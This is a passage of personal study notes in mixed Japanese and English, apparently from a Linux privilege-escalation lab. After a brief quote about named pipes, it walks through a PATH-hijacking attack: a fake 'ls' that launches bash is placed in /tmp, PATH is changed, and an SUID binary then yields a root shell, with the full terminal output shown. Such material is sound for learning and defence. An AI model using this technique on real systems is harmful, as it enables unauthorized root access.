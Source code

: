 [mkfifoコマンドって使ってますか？](https://qiita.com/richmikan@github/items/bb660a58690ac01ec295)

>1. 名前付きパイプから読み出そうとすると、誰かがその名前付きパイプに書き込むまで待たされる。
>2. 名前付きパイプへ書き込もうとすると、誰かがその名前付きパイプから読み出すまで待たされる。



## 9. Exploting PATH Variable



**What is PATH?**

PATH is an environmental variable in Linux and Unix-like operating systems which specifies directories that hold executable programs. When the user runs any command in the terminal, it searches for executable files with the help of the PATH Variable in response to commands executed by a user.

It is very simple to view the Path of the relevant user with help of the command **"echo $PATH"**.

**How does this let us escalate privileges?**

Let's say we have an SUID binary. Running it, we can see that it’s calling the system shell to do a basic process like list processes with "ps". Unlike in our previous SUID example, in this situation we can't exploit it by supplying an argument for command injection, so what can we do to try and exploit this?

We can re-write the PATH variable to a location of our choosing! So when the SUID binary calls the system shell to run an executable, it runs one that we've written instead!

As with any SUID file, it will run this command with the same privileges as the owner of the SUID file! If this is root, using this method we can run whatever commands we like as root!

```sh
#create ls command
#let it can login as root
user5@polobox:~$ cd /tmp/
user5@polobox:/tmp$ echo "/bin/bash" > ls
user5@polobox:/tmp$ cat ls
/bin/bash

#check ls command

user5@polobox:/tmp$ which ls
/bin/ls
user5@polobox:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
#change ls command
user5@polobox:/tmp$ chmod +x ls

#Now, we need to change the PATH variable, so that it points to the directory where we have our imitation "ls" stored! 
user5@polobox:/tmp$ export PATH=/tmp:$PATH
user5@polobox:/tmp$ which ls
/tmp/ls
user5@polobox:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games

#why よく分からない
#chang user to root
user5@polobox:~$ ./script
Welcome to Linux Lite 4.4 user5

Sunday 10 October 2021, 02:41:53
Memory Usage: 344/1991MB (17.28%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)

root@polobox:~# id
uid=0(root) gid=0(root) groups=0(root),1004(user5)
```